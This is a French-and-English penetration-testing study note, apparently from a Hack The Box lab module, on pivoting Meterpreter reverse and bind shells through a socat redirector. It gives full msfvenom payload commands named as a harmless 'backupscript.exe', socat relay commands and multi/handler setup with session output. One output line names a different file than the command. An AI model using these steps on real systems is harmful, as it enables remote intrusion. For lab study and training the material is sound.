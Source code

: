 # Socat Redirection with a Reverse Shell and Bind Shell

{% hint style="warning" %}
Socat est un outil de relais bidirectionnel qui peut créer des sockets entre deux canaux réseau indépendants sans utiliser de tunnel SSH. Il agit comme un redirigeur qui peut écouter sur une adresse et un port, puis transmettre ces données vers une autre adresse IP et un autre port. Nous pouvons démarrer l'écouteur de Metasploit en utilisant la même commande mentionnée dans la dernière section sur notre machine d'attaque, puis exécuter Socat sur le serveur Ubuntu.
{% endhint %}

#### <mark style="color:green;">Démarrage de l'écouteur Socat</mark>

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

#### <mark style="color:green;">Création du Payload Windows</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
{% endcode %}

#### <mark style="color:green;">Démarrage de la Console Metasploit</mark>

```bash
mrroboteLiot@htb[/htb]$ sudo msfconsole
```

#### <mark style="color:green;">Configuration et Démarrage du Multi/Handler</mark>

```bash
msf6 > use exploit/multi/handler
```

```bash
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
```

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

```bash
meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

***

## <mark style="color:red;">Socat Redirection with a Bind Shell</mark>

{% hint style="warning" %}
Comme avec le **reverse shell socat**, on peut aussi créer un **bind shell redirector**. Contrairement aux reverse shells qui se connectent du serveur Windows vers le serveur Ubuntu pour être redirigés vers notre hôte d’attaque, le bind shell fait que le serveur Windows ouvre un **listener** sur un port spécifique. On peut générer un payload bind shell pour Windows et l’exécuter sur la cible. Ensuite, on crée un redirector socat sur le serveur Ubuntu pour écouter les connexions entrantes du bind handler Metasploit et les transférer vers le bind shell sur la cible Windows.
{% endhint %}

![](https://academy.hackthebox.com/storage/modules/158/55.png)

<mark style="color:green;">**Creating the Windows Payload**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```
{% endcode %}

<mark style="color:green;">**Starting Socat Bind Shell Listener**</mark>

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

<mark style="color:green;">**Configuring & Starting the Bind multi/handler**</mark>

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.
